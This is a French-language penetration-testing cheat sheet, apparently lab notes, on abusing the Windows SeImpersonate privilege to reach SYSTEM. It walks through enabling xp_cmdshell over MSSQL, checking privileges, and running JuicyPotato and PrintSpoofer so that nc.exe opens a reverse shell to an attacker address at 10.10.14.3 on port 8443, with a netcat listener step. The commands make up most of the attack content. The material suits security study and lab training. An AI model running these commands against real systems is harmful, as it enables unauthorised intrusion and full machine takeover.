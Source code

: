 # SeImpersonate and SeAssignPrimaryToken

***

{% hint style="warning" %}
Le privilège **SeImpersonate** permet d’utiliser le jeton d’un autre processus pour exécuter des actions avec ses droits, y compris SYSTEM.\
Normalement réservé aux administrateurs, il peut être exploité par un attaquant via des techniques comme les attaques **Potato**, qui trompent un processus SYSTEM pour obtenir son jeton.\
On le rencontre souvent après une compromission via un service (webshell ASP.NET, Jenkins, MSSQL, etc.), et sa présence est un signal fort qu’une escalade rapide vers SYSTEM est possible.
{% endhint %}

***

> Un bon article existe à propos des attaques par **usurpation de jeton**. : [https://github.com/hatRiot/token-priv/blob/master/abusing\_token\_eop\_1.0.txt](https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt)

***

### <mark style="color:red;">Exemple de SeImpersonate – JuicyPotato</mark>

***

#### <mark style="color:green;">Connexion avec MSSQLClient.py</mark>

```
$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```

```
SQL> enable_xp_cmdshell
```

```
SQL> xp_cmdshell whoami
=> nt service\mssql$sqlexpress01
```

***

#### <mark style="color:green;">Vérification des privilèges</mark>

```
SQL> xp_cmdshell whoami /priv
```

On voit entre autres :

* `SeImpersonatePrivilege` → Activé
* `SeAssignPrimaryTokenPrivilege` → Désactivé
* On peut donc utiliser des outils comme **JuicyPotato** pour en tirer parti via une **faille DCOM/NTLM**.

{% hint style="warning" %}
<mark style="color:yellow;">**La faille DCOM/NTLM exploitée par JuicyPotato**</mark>

* **Idée** :
  1. Avec **SeImpersonate**, l’attaquant peut attendre qu’un processus SYSTEM tente de s’authentifier.
  2. En utilisant une **fonction DCOM**, il déclenche une connexion **NTLM** de SYSTEM vers un service qu’il contrôle (ex. un _named pipe_ malveillant).
  3. SYSTEM envoie son jeton NTLM → l’attaquant l’intercepte.
  4. L’attaquant **s’exécute avec ce jeton**, devenant SYSTEM.
{% endhint %}

***

#### <mark style="color:green;">Escalade de privilèges avec JuicyPotato</mark>

1. Télécharger **JuicyPotato.exe** et **nc.exe**
2. Les transférer sur le serveur
3. Lancer un écouteur Netcat (`nc -lnvp 8443`)
4. Exécuter :

{% code overflow="wrap" fullWidth="true" %}
```powershell
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```
{% endcode %}

***

### <mark style="color:red;">PrintSpoofer et RoguePotato</mark>

⚠️ **JuicyPotato ne fonctionne plus** sous **Windows Server 2019** ou **Windows 10 version 1809+**.

Mais **PrintSpoofer** et **RoguePotato** peuvent encore exploiter les **mêmes privilèges**.

[https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

***

#### <mark style="color:green;">Escalade avec PrintSpoofer</mark>

Encore une fois, on connecte via `mssqlclient.py` et on lance :

```
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

***
